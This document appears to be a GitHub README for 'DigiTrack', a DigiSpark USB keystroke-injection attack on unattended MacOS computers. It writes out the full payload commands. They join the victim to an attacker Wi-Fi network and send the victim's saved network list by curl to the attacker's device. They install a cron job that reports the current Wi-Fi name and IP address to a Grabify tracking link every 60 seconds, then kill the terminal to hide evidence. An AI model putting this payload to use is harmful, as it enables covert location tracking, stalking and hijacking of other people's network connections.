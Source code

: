 # DigiTrack

In 30 seconds, this attack can learn which networks a MacOS computer has connected to before, and plant a script that tracks the current IP address and Wi-Fi network every 60 seconds.

This is a $5 attack that does a couple things:

1) Inserts a Wi-Fi backdoor onto a victim computer, allowing you to capture the victim's data connection at any time when you are in Wi-Fi range.
2) Steals a list of every network the victim has ever connected to (for tracking, classifying, and hijacking data connection)
3) Inserts a tracking job that send the IP address and currently connected network to a Grabify link every 60 seconds.


Attack goes: A victim leaves a MacOS computer unattended for 30 seconds. The attacker inserts a DigiSpark board loaded with an attack payload. The payload looks like this (with delays and single key strokes removed):


 ## DigiKeyboard.print("networksetup -setairportnetwork en0 'sneakernet' 00000000"); 
  - We add the network "Sneakernet" to our trusted network list and connect to it.
  
##  DigiKeyboard.print("curl -m 10 --silent --output /dev/null -X POST -H \"Content-Type: text/plain\" --data \"$(networksetup -listpreferredwirelessnetworks en0)\" 192.168.4.1 &");
  - After connecting, we send a CURL request listing every single network the MacOS computer has connected to in the past to the esp8266 creating the "Sneakernet" network. The & puts the process in the background in case it takes too long, and the -m sets a timer of 10 seconds to prevent it taking too long. Now we know which Wi-Fi networks the victim has joined, and which networks will force the computer to connect without asking.
  
##  DigiKeyboard.print("export VISUAL=nano; crontab -e");
  - We create a job that will execute every 60 seconds
  
 ## DigiKeyboard.print("* * * * * curl --silent --output /dev/null --referer \"$(/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -I | awk '/ SSID/ {print substr($0, index($0, $2))}')\"  https://grabi/YOURLINK");
 - We suppress the output of CURL, and grab the network name of the currently connected Wi-Fi network. We sent this along with a CURL request to a tracking URL, delivering the target's IP address and currently connected Wi-Fi network every 60 seconds.
  
##  DigiKeyboard.print("wait && kill -9 $(ps -p $PPID -o ppid=)");
  - Finally, we wait for all background processes to finish, and kill the shit out of the terminal window to hide the evidence.

Total run time is about 30 seconds, not including the few seconds the Digisparks waits for a sketch to upload.

Notes: Grabify may go into "I'm under attack" mode and not allow checkin. Look for this line:
div class="cf-browser-verification cf-im-under-attack"
  
 If you see it, then the IP address is being blocked by cloudflare.
